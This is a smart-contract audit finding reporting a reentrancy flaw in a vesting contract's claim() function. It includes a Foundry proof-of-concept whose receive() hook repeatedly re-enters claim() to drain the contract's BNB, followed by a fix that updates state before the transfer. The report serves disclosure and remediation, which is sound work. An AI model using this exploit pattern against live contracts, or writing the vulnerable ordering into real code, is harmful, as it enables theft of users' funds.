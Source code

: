 Elegant Aquamarine Goblin

high

# Vesting.sol#claim() Reentrancy allows a malisious user to drain the contract

## Summary

## Vulnerability Detail
This function `claim()` allows users to claim vested tokens or BNB. There is a for loop, that starts with `s.index` and loops until `s.index` is less or equal to `vestingPoints.length - 1`. Each loop adds the user's claimable amount (if any) to the `pctAmount`.

```js 
uint256 i = s.index;
        for (i; i <= vestingPoints.length - 1; i++) {
            if (block.timestamp >= vestingPoints[i][0]) {
                pctAmount += (s.userDeposit * vestingPoints[i][1]) / 10000;
            } else {
                break;
            }
        }
```
If `pctAmount` is other than 0, it is transferred to the user. If it is the native token, it is transferred by a low-level call.  The problem here is, the `s.index` is updated after the low-level call which allows reentrancy.
```js
        if (pctAmount != 0) {
            if (address(token) == address(1)) {
                (bool sent, ) = payable(sender).call{value: pctAmount}("");
                require(sent, "Failed to send BNB to receiver");
            } else {
                token.safeTransfer(sender, pctAmount);
            }
            s.index = uint128(i);
            s.amountClaimed += pctAmount;
```
Since the `s.index` is not updated, the user can make his `receive` function call `claim()` and it will reenter it. This action will be repeated until the user drains the whole contract.

## Impact
A malicious user can drain the whole contract's amount.

## Proof Of Concept 
```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.11;

import "forge-std/Test.sol";
import "../contracts/Vesting.sol";
import "../contracts/VestingFactory.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "forge-std/console.sol";

contract VestingTest is Test {
     VestingFactory public factory;
     Vesting public vestingMaster;
     uint256 startingBalance;

    function setUp() public {
        vestingMaster = new Vesting();
        factory = new VestingFactory(address(vestingMaster));
        factory.setOperator(address(this));
        startingBalance = address(this).balance;
    }

    function testClaimReentrancy() public {
        uint128[2][] memory vestingPoints = _getVestingPoints();
        Vesting vestingContract = _deployVesting(address(0x1), address(this), vestingPoints);
        deal(address(vestingContract), 20 ether);

        address[] memory users = new address[](1);
        uint256[] memory amount = new uint256[](1);

        users[0] = address(this);
        amount[0] = 5 ether;

        vestingContract.updateUserDeposit(users, amount);
        vestingContract.claim();

        assertEq(address(this).balance, startingBalance + 20 ether);
        assertEq(address(vestingContract).balance, 0);
    }

    function _deployVesting(address _token, address _wallet, uint128[2][] memory _vestingPoints) internal returns (Vesting){
        factory.createVestingSchedule(address(0), IERC20(_token), _wallet, _vestingPoints);
        return Vesting(payable(0xffD4505B3452Dc22f8473616d50503bA9E1710Ac));
    }

    function _getVestingPoints() internal returns(uint128[2][] memory) {
        uint128[2][] memory vestingPoints = new uint128[2][](1);
        uint128[2] memory points;

        points[0] = uint128(block.timestamp);
        points[1] = 10000;

        vestingPoints[0] = points;

        return vestingPoints;
    } 

    receive() external payable {
        while (address(this).balance < startingBalance + 20 ether) {
            Vesting(msg.sender).claim();
        }
    }

```

## Code Snippet
https://github.com/sherlock-audit/2024-03-zap-protocol/blob/c2ad35aa844899fa24f6ed0cbfcf6c7e611b061a/zap-contracts-labs/contracts/Vesting.sol#L67-L92

## Tool used

Manual Review

## Recommendation
````diff
 function claim() external {
        address sender = msg.sender;

        UserDetails storage s = userdetails[sender];
        require(s.userDeposit != 0, "No Deposit");
        require(s.index != vestingPoints.length, "already claimed");
        uint256 pctAmount;
        uint256 i = s.index;
        for (i; i <= vestingPoints.length - 1; i++) {
            if (block.timestamp >= vestingPoints[i][0]) {
                pctAmount += (s.userDeposit * vestingPoints[i][1]) / 10000;
            } else {
                break;
            }
        }
+       s.index = uint128(i);
+       s.amountClaimed += pctAmount;
        if (pctAmount != 0) {
            if (address(token) == address(1)) {
                (bool sent, ) = payable(sender).call{value: pctAmount}("");
                require(sent, "Failed to send BNB to receiver");
            } else {
                token.safeTransfer(sender, pctAmount);
            }
-            s.index = uint128(i);
-            s.amountClaimed += pctAmount;
        }
    }
```
